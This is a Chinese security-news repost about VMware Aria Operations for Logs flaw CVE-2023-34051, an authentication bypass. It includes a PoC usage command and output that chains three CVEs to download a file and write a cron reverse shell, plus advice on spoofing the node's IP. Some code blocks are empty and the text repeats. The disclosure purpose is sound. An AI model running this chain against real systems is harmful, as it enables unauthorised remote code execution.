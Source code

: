 #  研究人员发布VMware (CVE-2023-34051) POC 漏洞利用代码   
 安全客   2023-10-25 18:42  
  
CVE-2023-34051（CVSS 评分 8.1）是 VMware Aria Operations for Logs 中的一个身份验证绕过漏洞。  
未经身份验证的恶意行为者可以将文件注入受影响设备的操作系统中，从而导致远程代码执行  
。  
  
该漏洞由网络安全公司 Horizon3 发现，并发布了该漏洞的技术分析。  
  
今年早些时候，该安全公司发布了有关  
VMSA-2023-0001  
的技术信息，该信息影响了 VMware Aria Operations for Logs（以前称为 VMware vRealize Log Insight）。  
  
研究人员演示了攻击者如何利用三个不同的 CVE 来实现远程代码执行。在调查问题时，研究人员发现VMware提供的解决方案无法完全解决这些缺陷。研究人员立即向 VMware 报告了这个新问题，并已在 VMSA-2023-0021 中得到解决。  
  
此漏洞的危害指标  
与VMSA-2023-0001 发布的相同。  
该网络安全公司还发布了针对此漏洞的  
PoC 漏洞利用  
 。  
  
CVE-2023-34051 是一种绕过 VMSA-2023-0001 补丁的身份验证绕过方法。适用于 vRealize Log Insight 的 VMSA-2023-0001 包括以下 CVE：  
- VMware vRealize Log Insight 目录遍历漏洞 (CVE-2022-31706)  
  
- VMware vRealize Log Insight 破坏访问控制漏洞 (CVE-2022-31704)  
  
- VMware vRealize Log Insight 包含信息泄露漏洞 (CVE-2022-31711)  
  
该漏洞的默认配置会编写一个 cron 作业来创建反向 shell。请务必更改该payload文件以适合您的环境。  
## 用法  
```
$ python3 VMSA-2023-0001.py --target_address 192.168.4.133 --http_server_address 192.168.4.60 --http_server_port 8080 --payload_file payload --payload_path /etc/cron.d/exploit [+] Using CVE-2022-31711 to leak node token[+] Found node token: f261d2f5-71fa-45fd-a0a0-6114a55a8fb8[+] Using CVE-2022-31704 to trigger malicious file download192.168.4.133 - - [30/Jan/2023 16:43:41] "GET /exploit.tar HTTP/1.1" 200 -[+] File successfully downloaded[+] Using CVE-2022-31706 to trigger directory traversal and write cron reverse shell[+] Payload successfully delivered
```  
## 故障排除  
  
为了使这种攻击起作用，攻击者必须具有与主/工作节点相同的 IP 地址。请参阅上面的博客了解更多详细信息。  
  
如果使用基于 cron 的有效负载，请确保有效负载文件具有适当的权限和所有者：  
```
```  
```
```  
  
这个 POC 滥用 IP 地址欺骗和各种 Thrift RPC 端点来实现任意文件写入。  
此漏洞的默认配置会编写一个 cron 作业来创建反向 sh  
ell。为了使这种攻击起作  
用，攻击者必须具有与主/工作节点相同的 IP 地  
址。  
  
